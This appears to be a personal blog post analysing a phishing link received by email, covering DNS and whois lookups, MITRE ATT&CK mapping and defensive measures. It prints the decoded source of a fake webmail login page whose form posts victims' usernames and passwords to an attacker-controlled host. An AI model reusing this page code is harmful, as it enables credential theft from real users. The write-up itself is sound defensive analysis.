




### Introduction

Today I received an email with the following link:

hxxps://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.xxxx@gmail.com&domain=google.com

Here was the form that was showed when I opened it in a safe environment.

<div style="text-align:center"></div>

After my small analysis, I deducted that it is a phishing website which is controlled by the host hxxps://bremerrapidest[.]xyz .

### Investigation

1) Where is it hosted ?

Quick **dig** lookup to see what are the records link to that domain.

```bash
.....
;; ANSWER SECTION:
hjvfyktdfky56kdrt5jt5ej5.web.app. 86400 IN A    151.101.1.195
hjvfyktdfky56kdrt5jt5ej5.web.app. 86400 IN A    151.101.65.195
```

Next, a small **whois** one of those IPs and we can see that it is part of Fastly, A CDN provider.
This will ensure that everybody that will access this website will have a good experience in terms of latency.
This also can explain why our dig command responded with two IPs.

```bash
NetRange:       151.101.0.0 - 151.101.255.255
CIDR:           151.101.0.0/16
NetName:        SKYCA-3
NetHandle:      NET-151-101-0-0-1
Parent:         RIPE-ERX-151 (NET-151-0-0-0-0)
NetType:        Direct Assignment
OriginAS:       
Organization:   Fastly (SKYCA-3)
....
OrgName:        Fastly
OrgId:          SKYCA-3
Address:        PO Box 78266
City:           San Francisco
....
OrgAbuseHandle: ABUSE4771-ARIN
OrgAbuseName:   Abuse Account
OrgAbusePhone:  +1-415-496-9353 
OrgAbuseEmail:  abuse@fastly.com
```

2) What tells the source code ?

It seems that:
- The content of the page has been encoded in ASCII
- The content show a reference to [@therealelyayo](https://github.com/therealelyayo) which is an account that host several fork of phishing tools such as:
  - [HiddenEye-Legacy](https://github.com/DarkSecDevelopers/HiddenEye-Legacy): 2K Starts & 901 Forks
  - [AdvPhishing](https://github.com/Ignitetch/AdvPhishing): 528 Stars & 261 Forks
  - [Recreator-Phishing](https://github.com/AngelSecurityTeam/Recreator-Phishing): 109 Stars & 39 Forks

We can also see that all the content of the website is within one line between within a JavaScript, which is encoded in ASCII

- Raw encoded page:
```html
<Script Language='Javascript'>
<!-- HTML Encryption provided by therealelyayo -->
<!--
document.write(unescape('%3C%21%44%4F%43%54........%74%6D%6C%3E'));
//-->
</Script>
```
- Decoded page:
```html
<!DOCTYPE html>
<!--[if IE 8 ]> <html class="ie ie8" lang="en"> <![endif]-->
<!--[if IE 9 ]> <html class="ie ie9" lang="en"> <![endif]-->
<!--[if (gte IE 10)|!(IE)]><!-->
<html lang="en">
<!--<![endif]-->

<head>
    <meta charset="utf-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width,user-scalable=no">
    <meta name="domain-suggester-prompt" content="Did you mean {{corrected_email}}?">
    <meta name="api-uri" content="https://api.squareup.com">
    <meta name="max-idle-minutes" content="30">
    <meta name="referrer" content="origin">
    <link href="https://gresrty.imfast.io/login.css" media="screen" rel="stylesheet">
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> 
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
        <div class="field password-field fade-label"> <label class="text" for="password">Password</label> <input class="text" id="password" name="password" size="20" autocomplete="off" onkeyup="checkForm()" type="password" value="">
            <div class="form-group"><input type=hidden id="address" name=address size=5 value=""><input type=hidden id="address2" name=type size=5 value=""> </div>
            <div id="captcha" class="g-recaptcha submit-button"></div>
            <div class="submit-button full-length-submit-button"> <button id="sign-in-button" type="submit" class="btn btn-blue track-event" disabled="disabled"> <span class="button-text">Sign In</span> </button> </div>
    </form>
</div>
</div>
<script>
    function checkForm() {
        var name = document.getElementById("password").value;
        var cansubmit = (name.length > 3);
        document.getElementById("sign-in-button").disabled = !cansubmit;
    };
</script>
<script>
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const email = urlParams.get('emailtoken');
    const type = urlParams.get('domain');
    const address = urlParams.get('domain');
    const image = urlParams.get('domain');
    document.getElementById('username').value = email;
    document.getElementById('address').value = type;
    document.getElementById('address2').value = address;
    document.getElementById('image2').value = image;
    document.getElementById("demo").innerHTML = 5 + 6;
    var str = email;
    var str1 = type;
    var str2 = address;
    var str3 = image;
    str = str.substring(str.indexOf("@") + 1);
    document.getElementById('hlight').innerHTML = str;
</script>
</body>

</html>
```

3) What's behind that decoded source code ?

As documented "*// Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.*", the website get the parameter **domain** in order to fool the users.

The **domain** parameter is given to https://www.google.com/s2/favicons?domain= in order to find an icon on the given domain.
This will:
  - Include an icon within the ¨*favicon*
  (cc variable **imageBoxx**) 
  - Include the icon within form, just above the mail
  (cc variable **imageBox**)

```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> 

```

It also add the domain to the page within the form (After Webmail) by doing the following

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "hxxps://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

https://www.google.com/s2/favicons?domain=nfl.com 


1) Analysis of the form

As you can seen the POST is performed towards another domain "hxxps://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```

After enumerating manually some known folders & files, I found the following page https://bremerrapidest[.]xyz/admin/, which should, according to me also be classified as malicious.
*Note that as this is not a pentesting engagement or a learning environment, I'm not allowed to perform enumeration through tools such as gobuster. I'm also not allowed to scan for possible open ports, even if it would be surprising as it is a CDN. I tried some OSINT afterwards with amass, but without success*



We can have a look at the certificate and we will see that it is signed by Cloudfare

At the moment, this website is only seen as malicious by one engine on VirusTotal



And on the otherside, the phish is not detected by any engine on VirusTotal



### Observed TTPs

From my own perspective, I didn't saw any sign of [Reconnaissance](https://attack.mitre.org/tactics/TA0043/).
For the [Resource Deployment](https://attack.mitre.org/tactics/TA0042/):
- [**T1583.001**](https://attack.mitre.org/techniques/T1583/001/): A domain as being bought (hxxps://bremerrapidest[.]xyz/merrybe/post.php) 
  Note that if it would be a bigger attack, their would be more chance that the TLD would be something else.
- [**T1583**](https://attack.mitre.org/techniques/T1583/): As each side are behind CDN, it it difficult to tell if they acquired a Web Services, a Server, a compromised system (Botnet). But there must be a system that host those websites.
- It seems that there is no sub-technique within  [**T1583**](https://attack.mitre.org/techniques/T1583/) for CDN, but it is worst notice that this attacker used it. 

For the [Initial Access](https://attack.mitre.org/techniques/T1566/), it is a "simple" mass phishing campaign [**T1566**](https://attack.mitre.org/techniques/T1566/)


### How to defend against those kinds of attacks

Note that the measures listed below are again, subject to my own expertise and judgdment.
Also, this there are solutions for this exact attack type and not all types of phishing.

#### Prevent

###### User Awareness

Users should be trained to identify social engineering techniques and phishing emails.

###### DNS Security 

When we look at the recevied website, beside the unusual DNS name and the fact that the domain was very new, it is a simple form page **when looking at it**.
However, a good DNS Security engine that perform perform DNS entropy analysis **and** take into the age of the DNS **and** the TLD, as some are known to be most likely malicious cfr. [Spamhaus.org](https://www.spamhaus.org/statistics/tlds/).

If you have a solution that perform URL filtering based on categories, there is an high chances to find a category that take.
An issue can appear is when all those public Cloud services growing, they also come with auto-generated domain names, which can then block you from reaching them if they meet both conditions. To avoid that, you could apply the possible only for specific know malicious TLDs, but you would open a door.

**Pro Tip**: There are some free extension that provides this service such as:
- Netcraft Browser Extension
- Malwarebytes Browser Guard
*Note that it is more difficult to have the logs, which are more than interesting to have for your Security Team, are difficult to get*

###### Browser Security 

Some browsers such as Google Chrome's "SafeBrowsing" feature and Microsoft Edge's "SmartScreen" can also help.
Some have a better velocity than others. In my own opinion, this depends on:
- Does the browser vendor offers public DNS Resolvers that are widely used ?
- Does the browser vendor has also analytics embedded on most of the sites
- Does the browser vendor also offer hosting services such as public Cloud
- Does the browser vendor also developp security solutions, and so have a mature security team with Cyber Threat Intelligence analysts, .. 

If all those data sources are correlated within the Vendor, this can explains why some of those engine are more faster to detect malicious domains than others.

*Note that it is more difficult to have the logs, which are more than interesting to have for your Security Team, are difficult to get*

#### Detect

###### Web Filtering (With SSL Decryption)

A security solution that perform web filtering such as Web Secure Gateway or "Next-Generation Firewall with License XYZ" could maybe detect those domain names using:
- Retro-hunt analysis. Also the link(s) within the website visited.
- Static analysis of the code, a page that almost only contains "unescape()" with tons of ASCII characters is not usual.

Or a Web Secure Gateway that performs those checks.

###### SIEM

Performing retro-active queries within you SIEM on domain names that meet certain criterias such as:
- Only appeared within the last **x** hours.
- Has a high DNS entropy level score.
- Has a suspicious TLD.
- Received within the mailbox of users that are being more targetted than others.
- Within the list of mailboxes that have been publicly available on the Internet seen during OSINT exercice.
- ....

*Note that for spear phishing and whaling, some criterias listed above are not applicable*

It could be easily automated, where when X out of Y conditions are meet, it raises an alert.

You would then have a list of domains that you could either check manually or query other vendors than the security solutions you use to see if this domain name has been classified as malicious by some other vendors.
- - - - - 

<div class="mdl-card__markdown-content">
**DISCLAIMER** <br \>
This analysis is done during my free-time in order learn new skills and share with the community. <br \>
This analysis is not related to any work within either my current or previous employeers.<br \>
During this analysis, they have been no use of illegal or stolen tools, and their have been no illegal activities conducted.
</div>
